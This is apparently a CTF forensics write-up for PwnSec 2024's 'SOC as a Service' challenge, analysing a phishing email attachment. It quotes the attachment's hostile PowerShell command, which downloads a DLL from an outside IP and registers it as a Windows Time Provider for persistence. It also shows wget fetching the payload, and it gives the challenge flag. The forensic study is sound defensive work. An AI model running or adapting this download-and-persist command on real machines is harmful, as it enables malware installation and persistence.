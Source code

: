 ## SOC as a Service [Forensics]
**Question:** Recently, our SOC experienced unusual inbound and outbound connections. We suspect that one of our analysts might have made a significant mistake. After conducting an investigation, we discovered that an analyst received an email. He told us he started investigating the email as a normal day and a normal ticket, but after it, some malicious activity occurred. Could you assist us in investigating what went wrong and identify our analyst's mistake? Flag format: PWNSEC{SHA1HashOfMaliciousFileDelievered_MitreidForDeliveryOfTheMaliciousFile_MitreForPersistence_C2ip_C2port}

**Flag:** `PWNSEC{6f4fdae522dccf52ef96698fde2e35a4539a8472_T1036.008_T1547.003_90.90.10.10_1337}`

We are given an EML file and the email attachment to investigate.

![soc1](/assets/posts/pwnsecctf2024/soc1.png)

Analyzing the attachment file, suspicious commands can be extracted from its metadata.

```
C:\Windows\System32\cmd.exe /c "powershell iwr http://20.0.145.51/windows_update/windows_update.dll -OutFile C:\Windows\Upd.dll; reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Time\TimeProviders\CMDProvider /v DllName /d C:\Windows\Upd.dll /f"
```

The SHA1 hash can be obtained after downloading the malicious DLL from the C2.

```
└─$ wget http://20.0.145.51/windows_update/windows_update.dll                                                 
--2024-11-16 11:53:48--  http://20.0.145.51/windows_update/windows_update.dll
Connecting to 20.0.145.51:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 220077 (215K) [application/octet-stream]
Saving to: ‘windows_update.dll’

windows_update.dll                                         100%[=======================================================================================================================================>] 214.92K   328KB/s    in 0.7s    

2024-11-16 11:53:49 (328 KB/s) - ‘windows_update.dll’ saved [220077/220077]

└─$ sha1sum windows_update.dll 
6f4fdae522dccf52ef96698fde2e35a4539a8472  windows_update.dll
```

The delivery MITRE took a long time to figure out. Essentially, the authors wanted the MITRE ID of how the user got tricked into clicking the attachment, not the delivery of the fake PNG file. At first I thought the MITRE ID was T1027.012 (Obfuscated Files or Information: LNK Icon Smuggling), but it was instead T1036.008 (Masquerading: Masquerade File Type).
